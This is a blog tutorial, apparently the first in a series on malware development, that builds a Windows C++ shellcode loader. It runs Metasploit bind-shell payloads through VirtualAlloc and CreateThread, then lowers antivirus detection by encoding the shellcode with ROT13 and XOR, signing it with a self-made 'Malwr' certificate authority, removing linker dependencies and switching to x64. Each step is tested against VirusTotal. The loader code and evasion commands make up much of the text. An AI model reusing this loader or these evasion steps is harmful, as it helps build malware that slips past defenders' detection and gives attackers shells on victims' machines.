

## Introduction
This is the first post of a series which regards development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
Let's create a C++  application that will run malicious shellcode while trying to not be caught by AV software.  
Why C++ and not C# or PowerShell script? Because it's much more difficult to analyze compiled binary when compared to managed code or script.  
For the purpose of this and following articles we will use MS Visual Studio 2017 or 2019 on Windows 10.

### How detections work
Antimalware solutions can use three types of detection mechanisms
* signature-based detection - static inspection of file checksums (MD5, SHA1 etc.) and presence of known strings or byte sequences in the binary,
* heuristic detection - (usually) static analysis of application behavior and identification of potentially malicious characteristics (e.g. use of specific functions which are usually associated with malware),
* sandboxing - dynamic analysis of the program which gets executed in a controlled environment (sandbox) where its actions are monitored.

Multiple techniques exist that evade different detection mechanisms. For example:
* polymorphic (or at least often recompiled) malware can defeat signature-based detection,
* obfuscation of code flow can evade heuristics based detection,
* conditional statements based on environmental checks can detect and bypass sandboxes,
* encoding or encryption of sensitive information can help bypass signature-based detection as well as heuristic detection.

## Let's get to work!
### Starting new project
We begin with creating a fresh project - Windows C++ Console Application (x86).


*Creating a new project in Visual Studio*

### Generating shellcode
We will use Metasploit to generate some malicious shellcode - let it be bind TCP shell.

`msfvenom -p windows/shell_bind_tcp LPORT=4444 -f c`

Shellcodes are pieces of machine code designed to run local or remote system shell (hence the name). They are mainly used during exploitation of software vulnerabilities - when an attacker is able to control program's execution flow he needs some universal payload to execute desired action (usually shell access). This applies to both local exploitation (e.g. for privilege escalation) and remote exploitation (for gaining RCE on a server).

Shellcode is a bootstrap code that leverage known platform-specific mechanics to execute specific actions (create a process, initiate TCP connection etc.). Windows shellcodes usually use TEB (Thread Environment Block) and PEB (Process Environment Block) to find address of loaded system libraries (`kernel32.dll`, `kernelbase.dll` or `ntdll.dll`) and then "browse" them to find addresses of `LoadLibrary` and `GetProcAddress` functions which then can be used to locate other functions.

Generated shellcode can be included in the binary as a string. Classic execution of char array involves casting this array to a pointer to a function like this:
```c
void (*func)();
func = (void (*)()) code;
func();
```

Or with this classic one-liner which I can never get right at the first time:
```c
(*(void(*)()) code)();
```

However I found it impossible to execute data on stack due to data execution prevention mechanisms (especially data on stack is protected from execution). While it is easy to achieve using GCC (with `-fno-stack-protector` and `-z execstack` flags) I didn't manage to do it using Visual Studio and MSVC compiler. Well, it's not that relevant.

Note: 
It may seem pointless to execute shellcode in an application, especially since we can just implement its features in C/C++. However there are situations when custom shellcode loader or injector needs to be implemented (for example to run shellcode generated by other tool). Besides executing known malicious code (like Metasploit shellcode) is a good proof-of-concept to test detection mechanisms and bypasses.

### Executing shellcode
The actual way to execute shellcode is a bit different. We need to:
* allocate a new memory region using [`VirtualAlloc`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) (or [`VirtualAllocEx`](https://docs.microsoft.com/pl-pl/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) for remote processes) Windows API function,
* fill it with the shellcode bytes (e.g. with [`RtlCopyMemory`](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory) function which is basically a `memcpy` wrapper),
* create a new thread using [`CreateThread`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) or [`CreateRemoteThread`](https://docs.microsoft.com/pl-pl/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) function, respectively.

Shellcode can be also executed using char array to function pointer cast, as long as the memory region which the shellcode resides in is marked as executable.

The source code of such an application will look like this:
```c
##include <Windows.h>

void main()
{
	const char shellcode[] = "\xfc\xe8\x82 (...) ";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```

## Testing against VirusTotal
Before publishing our executable we should make sure to remove some artifacts from the binary. It is a good idea to discard any debugging symbols and information - this can be achieved by switching build configuration to "Release" and disabling generation of debug information (linker configuration in project properties).

In particular,  PDB (Program Database) path is embedded in the binary by default when using Visual Studio. PDB is used for storing debugging information and the file is stored in the same directory as the executable (or DLL) itself. This path can give away some sensitive infomation - just imagine something like `"C:\users\nameSurname\Desktop\companyName\clientName\assessmentDate\MaliciousApp\Release\app.exe"`.

First let's see what does VirusTotal think about the shellcode:


How about the binary with embedded shellcode which gets executed right after start?


Detection rate is slightly lower for our executable.

## Shellcode obfuscation
First thing which comes in mind is to modify the shellcode to evade static signatures based on its content.

We can try the simplest "encryption" - apply ROT13 cipher to all bytes of embedded shellcode - so `0x41` becomes `0x54`, `0xFF` becomes `0x0C` and so on. During execution the shellcode will get "decrypted" by substracting a value of `0x0D` (13) from every byte.

The code looks like the following:
```c
##include <Windows.h>

void main()
{
	const char shellcode[] = "\x09\xf5\x8f (...) ";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	for (int i = 0; i < sizeof shellcode; i++)
	{
		((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) - 13;
	}
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```

We can also use XOR encryption (with constant single-byte key) instead of Caesar Cipher:
```c
for (int i = 0; i < sizeof shellcode; i++)
{
	((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) ^ '\x35';
}
```

However that didn't help much:
	


## Making the app more legitimate
### Analyzing "empty" executable
Analyzing malware detection systems behavior on VirusTotal we may notice that even a program that does basically nothing gets flagged as malicious by several AV engines.

Following code was compiled:
```c
void main()
{
	return;
}
```

and resulting executable was tested:


This means that we need to deploy some techniques not necessarily related with the malicious shellcode itself.

### Signing the binary 
Some malware detection engines may flag unsigned binaries as suspicious. Let's generate code signing infrastructure - we will need certificate authority and code-signing certificate:
```bat
makecert -r -pe -n "CN=Malwr CA" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv MalwrCA.pvk MalwrCA.cer
certutil -user -addstore Root MalwrCA.cer
makecert -pe -n "CN=Malwr Cert" -a sha256 -cy end -sky signature -ic MalwrCA.cer -iv MalwrCA.pvk -sv MalwrCert.pvk MalwrCert.cer
pvk2pfx -pvk MalwrCert.pvk -spc MalwrCert.cer -pfx MalwrCert.pfx
signtool sign /v /f MalwrCert.pfx /t http://timestamp.verisign.com/scripts/timstamp.dll Malware.exe
```
After executing above commands, we have generated "Malwr" certificate authority, imported it to our certificate store, created code-signing certificate in `.pfx` format and used it to sign the executable.

Note: Executable signing can be configured as Post-Build Event in Visual Studio Project properies:
```bat
signtool.exe sign /v /f $(SolutionDir)Cert\MalwrSPC.pfx /t http://timestamp.verisign.com/scripts/timstamp.dll $(TargetPath)
```

Signed application has much smaller detection rate:


### Linked libraries
Playing with Visual C++ project compilation and linking properties I found out that when you remove additional dependencies from Linker options (especially `kernel32.lib`), some antimalware engines will stop flagging the resulting executable as malicious. Interesting, since `kernel32.lib` static library will still be statically linked after compilation, because the executable needs to know where to locate essential API functions (from `kernel32.dll`).

Decrease your malware detection rate with this **ONE WEIRD TRICK**:


## Switching to x64
It's 2020 and I think that most computers (especially user workstations) are running 64-bit systems. Let's generate x64 bind shell payload and check it against VirusTotal:

`msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -f raw`

Detection rate is significantly lower than for the x86 counterpart (23/51):


Compiled application which uses same techniques as earlier has very low detection rate:


## Summary
We crafted a simple shellcode loader and managed to significantly drop its detection rate using some non-sophisticated techniques. However it still gets detected by Microsoft Defender!

In the next article we will focus on sandbox detection and evasion techniques.
